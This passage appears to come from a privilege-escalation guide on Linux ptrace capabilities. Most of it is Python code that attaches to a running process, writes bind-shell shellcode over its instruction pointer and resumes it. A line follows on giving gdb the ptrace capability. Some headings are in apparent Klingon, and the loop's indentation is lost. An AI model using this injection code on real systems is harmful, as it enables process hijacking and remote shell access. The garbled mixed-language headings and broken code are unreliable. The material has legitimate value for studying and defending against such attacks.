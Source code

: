 ```python
# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
# Convert the byte to little endian.
shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
shellcode_byte=int(shellcode_byte_little_endian,16)

# Inject the byte.
libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
**ghItlhvam (gdb)**

`gdb` vaj `ptrace` qap:
```
/usr/bin/gdb = cap_sys_ptrace+ep
```
## Create a Shellcode with `msfvenom` to Inject in Memory via `gdb`
